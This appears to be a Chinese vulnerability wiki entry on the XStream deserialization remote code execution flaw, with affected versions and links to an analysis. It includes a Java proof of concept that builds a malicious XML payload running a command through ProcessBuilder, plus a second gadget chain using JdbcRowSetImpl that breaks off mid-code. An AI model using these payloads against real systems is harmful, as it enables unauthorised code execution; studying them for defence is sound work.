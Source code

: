 Xstream 反序列化漏洞
--------------

**1\. 漏洞简介**

Xstream Java 中经常用于处理 xml 的库, 最近一次修复中 (1.4.10 版本) 重现了历史反序列化远程代码执行漏洞, 所以也需要关注

**2\. 影响组件**

Xstream <1.4.6, =1.4.10

**3\. 漏洞指纹**

xml

**4\. Fofa Dork**

**5\. 漏洞分析**

XStream 反序列化组件攻击分析 | angelwhu\_blog  
[https://www.angelwhu.com/paper/2016/03/15/xstream-deserialization-component-attack-analysis/#0x04-Jenkins￥ﾈﾩ￧ﾔﾨ](https://www.angelwhu.com/paper/2016/03/15/xstream-deserialization-component-attack-analysis/#0x04-Jenkins%EF%BF%A5%EF%BE%88%EF%BE%A9%EF%BF%A7%EF%BE%94%EF%BE%A8)

**6\. 漏洞利用**

XStream 反序列化组件攻击分析 | angelwhu\_blog  
[https://www.angelwhu.com/paper/2016/03/15/xstream-deserialization-component-attack-analysis/#0x04-Jenkins￥ﾈﾩ￧ﾔﾨ](https://www.angelwhu.com/paper/2016/03/15/xstream-deserialization-component-attack-analysis/#0x04-Jenkins%EF%BF%A5%EF%BE%88%EF%BE%A9%EF%BF%A7%EF%BE%94%EF%BE%A8)

```
import com.thoughtworks.xstream.XStream;

import java.io.IOException;

public class Main {
// POC1
    public static void main(String\[\] args) throws IOException {
            XStream xStream = new XStream();
            String payload = "<sorted-set>\\n" +
                    "    <string>foo</string>\\n" +
                    "    <dynamic-proxy>\\n" +
                    "    <interface>java.lang.Comparable</interface>\\n" +
                    "        <handler class=\\"java.beans.EventHandler\\">\\n" +
                    "            <target class=\\"java.lang.ProcessBuilder\\">\\n" +
                    "                <command>\\n" +
                    "                    <string>cmd.exe</string>\\n" +
                    "                    <string>/c</string>\\n" +
                    "                    <string>calc</string>\\n" +
                    "                </command>\\n" +
                    "            </target>\\n" +
                    "     <action>start</action>"+
                    "        </handler>\\n" +
                    "    </dynamic-proxy>\\n" +
                    "</sorted-set>\\n";
//POC2
//        String payload = "<java.util.PriorityQueue serialization=\\"custom\\">\\n" +
//                "  <unserializable-parents/>\\n" +
//                "  <java.util.PriorityQueue>\\n" +
//                "    <default>\\n" +
//                "      <size>2</size>\\n" +
//                "      <comparator class=\\"org.apache.commons.beanutils.BeanComparator\\">\\n" +
//                "        <property>databaseMetaData</property>\\n" +
//                "        <comparator class=\\"java.util.Collections$ReverseComparator\\"/>\\n" +
//                "      </comparator>\\n" +
//                "    </default>\\n" +
//                "    <int>3</int>\\n" +
//                "    <com.sun.rowset.JdbcRowSetImpl serialization=\\"custom\\">\\n" +
```